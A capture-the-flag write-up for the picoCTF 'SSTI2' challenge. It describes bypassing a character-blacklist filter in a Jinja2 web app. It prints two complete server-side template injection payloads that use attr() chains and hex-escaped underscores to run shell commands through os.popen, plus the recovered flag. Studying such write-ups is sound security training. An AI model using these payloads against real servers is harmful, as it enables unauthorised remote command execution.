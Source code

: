 # SSTI2

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!

# Hints

1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

# What I Did

1. Filtered symbol _ . [ ] checked by trying each symbol in alert
![alt text](image.png)
![alt text](image-1.png)

2. Found this note https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
![alt text](image-2.png)

3. From the blog it used this payload 
``` python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
payload succeed 
![alt text](image-3.png)

4. Edit the payload so instead of showing id its showing flag
``` python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

5. Created a script to grab the flag 

[See script.py](script.py)

![alt text](image-4.png)

the flag is
``` bash 

picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}

```
